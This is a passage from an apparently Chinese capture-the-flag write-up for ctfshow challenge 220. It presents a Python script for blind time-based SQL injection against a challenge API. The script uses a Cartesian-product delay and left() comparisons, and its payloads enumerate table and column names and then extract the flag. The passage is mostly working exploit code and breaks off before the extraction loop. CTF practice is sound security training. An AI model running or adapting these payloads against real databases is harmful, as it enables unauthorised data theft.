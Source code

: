 ```
        end = start
    if chr(end) == "!":
        break
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1

```

### 220

![截图](25bee1c5b1a56db4bff45f16b7705eed.png)

延时只能用笛卡尔积，其次ascii被禁了，前面有说过，ord也一样，最后substr也被禁了就不好截取字符比较了，那就只能拼接比较

```
import string
import time

import requests

url = "http://bbdb689b-386c-435c-ae43-e707b9f65a76.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxcac
# payload = "left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{})='{}'"
# 列名 flagaabcc
# payload = "left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{})='{}'"
# flag
payload = "left((select flagaabcc from ctfshow_flagxcac limit 0,1),{})='{}'"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = None
    time_e = None
    while True:
        time_s = time.time()
        try:
            _ = requests.post(url, data=data)
        except:
            continue
        time_e = time.time()
        break
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


letters = "{}_-" + string.ascii_lowercase + string.digits
index = 1
result = ""

```